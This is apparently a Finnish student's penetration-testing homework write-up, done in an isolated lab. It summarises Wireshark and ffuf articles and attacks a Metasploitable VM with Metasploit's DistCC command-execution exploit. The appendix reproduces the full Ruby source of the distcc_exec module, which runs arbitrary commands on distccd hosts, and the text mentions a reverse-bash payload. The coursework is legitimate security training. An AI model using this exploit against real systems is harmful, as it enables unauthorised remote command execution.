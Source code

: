 # h3 Nuuskija

## Johdanto

Kotitehtävässä h3 oli tarkoituksena syventyä kotitehtävästä h2 tuttuihin Metasploitable-hyökkäyspaketteihin, viikon 45 oppitunnilla käytyihin hyökkäysten lähdekoodiin, verkkosniffaamiseen ja HackTheBoxiin sekä uutena asiana Fuzzaamiseen.

## Ennakkomateriaali (Kohta X)

Viikon aiheeseen liittyen tuli tiivistää Popovin artikkeli Wiresharkista ja Karvisen artikkeli Fuzzista.

### Wireshark Tricks

- Wiresharkin tuloksistaa voi `Analyze` ja `Statistics` -osioista löytää tärkeitä tietoja esimerkiksi pakettien tarkasta sisällöstä, käytetyistä protokollista ja DNS-kyselyistä

- Wiresharkin haku- ja suodatustyökaluja voi käyttää esimerkiksi HTTP-headerin tai hostin nimen selvittämiseen.

- Wireshark voi jopa dekryptoida HTTPS-liikennettä käyttämällä selaimen TLS sessio-avaimia tai palvelimen yksityistä avainta.

### Fuzz URL's with ffuf

- Fuzzaamisessa testataan verkkopalvelimen vasteita syöttämällä sille erinäisiä syötteitä (useimmiten satunnaisesti).

- Fuzzaamalla voidaan löytää verkkopalvelimesta piilotettuja hakemistoja, joihin ei ole muuten pääsyä.

- Ffuf on työkalu, joka suorittaa fuzzaamisen nopeasti ja automaattisesti.

### Lähteet

Popov 2024: Hacktricks: Wireshark tricks. Luettavissa: https://book.hacktricks.xyz/generic-methodologies-and-resources/basic-forensic-methodology/pcap-inspection/wireshark-tricks#improve-your-wireshark-skills. Luettu 10.11.2024

Karvinen 2023: Find Hidden Web Directories - Fuzz URLs with ffuf. Luettavissa: https://terokarvinen.com/2023/fuzz-urls-find-hidden-directories/. Luettu 10.11.2024

## Hyökkäys ja sorsastus (Kohdat A-B)

Aloitin tehtävän tarkistamalla tuttuun tapaan, että koneet saavat yhteyden VAIN toisiinsa HostOnly-verkossa, eivätkä muualle.

![image](https://github.com/user-attachments/assets/9512273c-df9c-4c83-9e9d-06bb99d4b51f)
![image](https://github.com/user-attachments/assets/f6dc88d7-ccce-4897-864f-d8833e2fe618)

_Yhteyskokeilu_

Tämän jälkeen avasin msf-konsolin ja valmistelin exploitin. Otin tehtävää varten itselleni uuden exploitin, eli `DistCC Daemon Command Execution` -hyökkäyksen. 

![image](https://github.com/user-attachments/assets/f0ab69b9-b989-4203-8982-b95fb128f457)

_Hyökkäyksen valinta ja konfigurointi_

Tässä vaiheessa hyödyllinen on `show options`-komento, joka näyttää ne parametrit, joita voin konfiguroida. Tässä tapauksessa olennaista on konfiguroida hyökkäyskohde `set RHOST` ja hyökkääjä `set LHOST`.

Valitettavasti tässä tapauksessa exploit ei saanut yhteyttä kohteeseen. Ohjelman antamasta palautteesta pystyin arvioida, että kyse on todennäköisesti virheellisestä payloadista. Metasploit antoi automaattisesti payloadin `cmd/unix/reverse_bash`, mutta tämä ei ole välttämättä oikea.

![image](https://github.com/user-attachments/assets/ed899a8b-b887-4df3-9aca-d779c8a5ebed)

Uusi payload, onnistunut hyökkäys

Lähdekoodi edit, liitteeissä

![image](https://github.com/user-attachments/assets/90a08f4f-7fad-4a41-b817-5fe4c21a4050)

Wireshark ping

![image](https://github.com/user-attachments/assets/901f102d-c943-4b50-bebe-960de0ab03cb)

![image](https://github.com/user-attachments/assets/58b99e93-d83e-4f96-babf-c7d552930f6c)

### Lähteet

Metasploit: Metasploitable 2 Exploitability Guide. Luettavissa: https://docs.rapid7.com/metasploit/metasploitable-2-exploitability-guide/.
Metasploit: DistCC Daemon Command Execution. Luettavissa: https://www.rapid7.com/db/modules/exploit/unix/misc/distcc_exec/.

### Liitteet

_Liite 1: DistCC lähdekoodi_

```
##
# This module requires Metasploit: https://metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
##

class MetasploitModule < Msf::Exploit::Remote
  Rank = ExcellentRanking

  include Msf::Exploit::Remote::Tcp

  def initialize(info = {})
    super(update_info(info,
      'Name'           => 'DistCC Daemon Command Execution',
      'Description'    => %q{
        This module uses a documented security weakness to execute
        arbitrary commands on any system running distccd.

      },
      'Author'         => [ 'hdm' ],
      'License'        => MSF_LICENSE,
      'References'     =>
        [
          [ 'CVE', '2004-2687'],
          [ 'OSVDB', '13378' ],
          [ 'URL', 'http://distcc.samba.org/security.html'],

        ],
      'Platform'       => ['unix'],
      'Arch'           => ARCH_CMD,
      'Privileged'     => false,
      'Payload'        =>
        {
          'Space'       => 1024,
          'DisableNops' => true,
          'Compat'      =>
            {

              'RequiredCmd' => 'generic perl ruby bash telnet openssl bash-tcp',
            }
        },
      'Targets'        =>
        [
          [ 'Automatic Target', { }]
        ],
      'DefaultTarget'  => 0,
      'DisclosureDate' => '2002-02-01'
      ))

      register_options(
        [
          Opt::RPORT(3632)
        ])
  end

  def check
    r = rand_text_alphanumeric(10)
    connect
    sock.put(dist_cmd("sh", "-c", "echo #{r}"))

    dtag = rand_text_alphanumeric(10)
    sock.put("DOTI0000000A#{dtag}\n")

    err, out = read_output
    if out && out.index(r)
      return Exploit::CheckCode::Vulnerable
    end
    return Exploit::CheckCode::Safe
  end

  def exploit
    connect

    distcmd = dist_cmd("sh", "-c", payload.encoded);
    sock.put(distcmd)

    dtag = rand_text_alphanumeric(10)
    sock.put("DOTI0000000A#{dtag}\n")

    err, out = read_output

    (err || "").split("\n") do |line|
      print_status("stderr: #{line}")
    end
    (out || "").split("\n") do |line|
      print_status("stdout: #{line}")
    end

    handler
    disconnect
  end

  def read_output

    res = sock.get_once(24, 5)

    if !(res and res.length == 24)
      print_status("The remote distccd did not reply to our request")
      disconnect
      return
    end

    # Check STDERR
    res = sock.get_once(4, 5)
    res = sock.get_once(8, 5)
    len = [res].pack("H*").unpack("N")[0]

    return [nil, nil] if not len
    if (len > 0)
      err = sock.get_once(len, 5)
    end

    # Check STDOUT
    res = sock.get_once(4, 5)
    res = sock.get_once(8, 5)
    len = [res].pack("H*").unpack("N")[0]

    return [err, nil] if not len
    if (len > 0)
      out = sock.get_once(len, 5)
    end
    return [err, out]

  end


  # Generate a distccd command
  def dist_cmd(*args)

    # Convince distccd that this is a compile
    args.concat(%w{# -c main.c -o main.o})

    # Set distcc 'magic fairy dust' and argument count
    res = "DIST00000001" + sprintf("ARGC%.8x", args.length)

    # Set the command arguments
    args.each do |arg|
      res << sprintf("ARGV%.8x%s", arg.length, arg)
    end

    return res
  end
end
```

